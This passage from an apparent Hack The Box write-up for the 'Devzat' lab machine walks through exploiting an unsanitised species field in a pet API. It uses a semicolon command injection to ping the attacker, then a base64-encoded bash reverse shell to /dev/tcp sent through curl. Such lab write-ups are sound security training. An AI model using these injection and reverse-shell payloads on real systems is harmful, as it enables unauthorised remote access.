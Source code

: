 ```go
        }
        return string(stdoutStderr)
}
```

## Pingback

This is the section that handles the pet names and species. The loadCharacter function has a strange command execution line where it doesn't sanitise the user input. We should be able to take advantage of this. Let's test it by pinging our Kali machine from the box:

```sh
┌──(root💀kali)-[~/htb/devzat/extracted/0-8274d7a547c0c3854c074579dfc359664082a8f6]
└─# curl -d '{"name":"pencer","species":"giraffe;ping -c 4 10.10.14.235"}' -X POST http://pets.devzat.htb/api/pet
Pet was added successfully
```

## TCPDump

Above I've used curl like before with a semi-colon after giraffe and then my ping command. With tcpdump listening in another terminal we can see the pings were received:

```sh
┌──(root💀kali)-[~/htb/devzat]
└─# tcpdump icmp -i tun0      
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
23:10:45.396719 IP devzat.htb > 10.10.14.235: ICMP echo request, id 11, seq 1, length 64
23:10:45.396729 IP 10.10.14.235 > devzat.htb: ICMP echo reply, id 11, seq 1, length 64
23:10:46.398232 IP devzat.htb > 10.10.14.235: ICMP echo request, id 11, seq 2, length 64
23:10:46.398241 IP 10.10.14.235 > devzat.htb: ICMP echo reply, id 11, seq 2, length 64
23:10:47.399926 IP devzat.htb > 10.10.14.235: ICMP echo request, id 11, seq 3, length 64
23:10:47.399936 IP 10.10.14.235 > devzat.htb: ICMP echo reply, id 11, seq 3, length 64
23:10:48.401262 IP devzat.htb > 10.10.14.235: ICMP echo request, id 11, seq 4, length 64
23:10:48.401273 IP 10.10.14.235 > devzat.htb: ICMP echo reply, id 11, seq 4, length 64
```

## Reverse Shell

That worked as expected, we can now try with a reverse shell. My go to one didn't work, so I needed to base64 encode it:

```sh
┌──(root💀kali)-[~/htb/devzat/extracted/0-8274d7a547c0c3854c074579dfc359664082a8f6]
└─# echo -n 'bash -i >& /dev/tcp/10.10.15.40/1337 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS40MC8xMzM3IDA+JjE=

┌──(root💀kali)-[~/htb/devzat/extracted/0-8274d7a547c0c3854c074579dfc359664082a8f6]
└─# curl -d '{"name":"pencer","species":"giraffe;echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS40MC8xMzM3IDA+JjE= | base64 -d | bash"}  ' -X POST http://pets.devzat.htb/api/pet
```
